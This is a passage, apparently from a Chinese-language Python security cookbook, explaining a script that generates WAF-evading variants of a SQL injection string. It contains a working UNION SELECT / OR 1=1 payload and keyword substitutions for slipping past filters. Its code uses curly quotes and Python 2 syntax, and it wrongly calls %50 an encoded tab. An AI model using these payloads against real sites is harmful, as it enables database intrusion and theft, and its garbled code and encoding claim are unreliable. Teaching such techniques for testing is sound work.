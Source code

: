 此脚本不需要库！多么令人震惊！我们为要创建的值创建一个空列表，并为要添加的替换值创建一个字典。我已经在其中添加了五个示例值。空格和`%20`通常由 WAF 转义，因为 URL 通常不包含空格，除非请求了不合适的内容。

更具体地说，经过调优的系统可能会转义特定于 SQL 的单词，例如`SELECT`、`AND`和`OR`。这些是非常基本的值，可以根据需要添加或替换：

```py
subs = []
values = {“ “: “%50”, “%20”: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
```

我已经将原始字符串硬编码为一个示例，因此我们可以看到它是如何工作的。我已经包含了一个有效的 SQLi 字符串，其中嵌入了上述所有值，以证明其用途：

```py
originalstring = “'%20UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
```

我们创建原始字符串的第二个版本，以便为每个替换创建累积结果和独立结果：

```py
secondoriginalstring = originalstring
```

我们依次获取每个字典项，并将每个键和值分别分配给参数键和值：

```py
for key, value in values.iteritems():
```

我们查看初始项是否存在，如果存在，则用键值替换它。例如，如果存在空格，我们将其替换为`%50`，这是编码的制表符 URL：

```py
if key in originalstring:
    newstring = originalstring.replace(key, value)
```

每次迭代，这个字符串都将重置为我们在脚本开始时设置的原始值。然后，我们将该字符串添加到前面创建的列表中：

```py
subs.append(newstring)
```

我们使用迭代字符串执行与前面相同的操作，该字符串每一次都会替换自身，以创建一个多编码版本：

```py
if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)
```

最后，我们将列表转换为一个集合并逐行返回给用户，从而使列表唯一：

```py
subset = set(subs)
for line in subs:
  print line
```

## 还有更多…

同样，可以将其制作为内部函数，而不是作为独立脚本使用。这也可以通过使用以下脚本来实现：
